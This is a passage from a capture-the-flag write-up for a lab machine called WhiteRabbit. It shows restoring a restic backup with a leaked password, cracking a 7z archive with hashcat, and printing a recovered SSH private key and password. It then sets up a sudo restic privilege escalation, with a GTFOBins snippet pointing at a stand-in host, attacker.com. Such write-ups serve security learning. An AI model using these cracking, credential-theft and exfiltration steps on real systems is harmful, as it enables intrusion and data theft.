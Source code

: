 we find two important commands here, a restic subdomain `75951e6ff.whiterabbit.htb` with password, and a hint for a password generator
```
❯ echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd

❯ chmod 600 .restic_passwd

❯ export RESTIC_REPOSITORY="rest:http://75951e6ff.whiterabbit.htb"

❯ export RESTIC_PASSWORD_FILE=".restic_passwd"

❯ restic snapshots
repository 5b26a938 opened (version 2, compression level auto)
created new cache in /home/redacted/.cache/restic
ID        Time                Host        Tags        Paths
------------------------------------------------------------------------
272cacd5  2025-03-06 19:18:40  whiterabbit            [color=#4cea5e]/dev/shm/bob/ssh[/color]
------------------------------------------------------------------------
1 snapshots

❯ restic restore latest --target ./restored_data

```
There is a blocked 7z file here, but we can use `7z2hashcat` get the hash and crack the password
```
./7z2hashcat.pl bob.7z > bob.hash
hashcat -m 11600 bob.hash /usr/share/wordlists/rockyou.txt 

Then we get the password
bob:1q2w3e4r5t6y
Then we can successfully get the ssh credit
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBvDTUyRwF4Q+A2imxODnY8hBTEGnvNB0S2vaLhmHZC4wAAAJAQ+wJXEPsC
VwAAAAtzc2gtZWQyNTUxOQAAACBvDTUyRwF4Q+A2imxODnY8hBTEGnvNB0S2vaLhmHZC4w
AAAEBqLjKHrTqpjh/AqiRB07yEqcbH/uZA5qh8c0P72+kSNW8NNTJHAXhD4DaKbE4OdjyE
FMQae80HRLa9ouGYdkLjAAAACXJvb3RAbHVjeQECAwQ=
-----END OPENSSH PRIVATE KEY-----

From the config file, we get
Host whiterabbit
  HostName whiterabbit.htb
  Port 2222
  User bob

Then we can login by port 2222
```
Then by checking the `sudo -l`
```
bob@ebdce80611e9:~$ sudo -l
Matching Defaults entries for bob on ebdce80611e9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on ebdce80611e9:
    (ALL) NOPASSWD: /usr/bin/restic
```
I can find the privileged access from `GTOBins`
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

RHOST=attacker.com
RPORT=12345
```